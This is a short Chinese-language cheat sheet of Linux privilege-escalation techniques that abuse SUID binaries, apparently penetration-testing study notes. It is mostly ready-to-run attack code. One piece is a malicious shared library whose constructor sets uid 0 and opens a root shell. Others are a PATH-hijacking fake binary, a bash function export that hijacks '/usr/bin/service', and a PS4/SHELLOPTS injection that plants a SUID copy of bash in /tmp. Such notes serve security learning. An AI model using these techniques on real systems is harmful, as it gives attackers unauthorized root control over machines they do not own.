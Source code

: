 ```bash
find / -perm -u=s -type f 2>/dev/null # 查找有SUID权限的文件
```

# 可执行文件已知漏洞

用searchsploit对SUID可执行文件进行搜集，查看可利用的漏洞

# 共享库注入

对有SUID权限的文件进行分析，如果有报错的内容表面这个文件请求了一个共享库，那么可以伪造共享库注入提权代码

```bash
strings <file>
strace <file> 2>&1
```

```bash
# file: pri.c

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor)); # 共享库被加载时会自动执行这个函数

void inject() {
		setgid(0);
		setuid(0);
		system("/bin/bash -p");
}
```

```bash
gcc -fPIC -shared -o <file.so> <file.c>
```

在C语言中，`__attribute__((constructor))` 是一个特殊的属性，它用于指定一个函数在程序运行时的初始化阶段被自动调用。具体来说，当程序加载时，具有此属性的函数会在 main() 函数执行之前被自动调用。这个特性通常用于执行一些全局初始化操作，例如初始化全局变量、打开文件、建立连接等。
另外，还有一个对应的 `__attribute((destructor))__` 属性，它让系统在 main() 函数退出或者调用了 exit() 之后，调用我们的函数。带有这些修饰属性的函数，对于我们初始化一些在程序中使用的数据非常有用。

# 环境变量利用

对有SUID权限的文件进行分析(strings strace)，如果里面有相对路径的命令文件，利用PATH环境变量，则可以伪造文件注入提权代码

```bash
#include <stdio.h>
#include <stdlib.h>

void main() {
		setgid(0);
		setuid(0);
		system("/bin/bash -p");
}
```

```bash
export PATH=.:$PATH # 使得当前目录下的文件优先执行
gcc -o <file> <file.c>
/suid-file
```

# SUID-Shell功能

## (1) bash version < 4.2

bash在执行的时候，对于自身定义的函数优先级高于环境变量（类似于环境变量覆盖，用更高优先级的环境变量劫持掉这个命令，注入提权代码

在 Bash 版本小于 4.2 的情况下，可以使用路径的组合作为函数的名称来定义函数。这意味着可以使用像文件路径一样的字符串来命名你的函数。例如，你可以定义一个名为 **`dir/subdir/myfunc`** 的函数。然后，你可以通过 **`dir/subdir/myfunc`** 来调用这个函数。

```bash
strings <file>
# /usr/bin/service apache2 start

function /usr/bin/service { /bin/bash -p; }
export -f /usr/bin/service
<file>
```

## (2) bash version < 4.4

bash版本低于4.4的时候，调试模式，对bash的环境变量进行设置

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)' /usr/bin/<file>
```

- `env -i`：这个命令会创建一个新的环境，并在这个新环境中运行后面的命令。新环境中不包含任何原来的环境变量。
- `SHELLOPTS=xtrace`：这个命令会设置 SHELLOPTS 环境变量的值为 xtrace。xtrace 是 Bash 的一个选项，当它被设置时，Bash 会打印出每一条执行的命令。这对于调试脚本非常有用。
- `PS4='$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)'`：这个命令会设置 PS4 环境变量的值为 '$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)'。PS4 是 Bash 的一个特殊变量，它定义了在 xtrace 模式下每一条命令执行前打印的提示符。在这个例子中，我们将提示符设置为一个命令，这个命令会复制 /bin/bash 到 /tmp/rootbash，并给 /tmp/rootbash 设置 SUID 和可执行权限。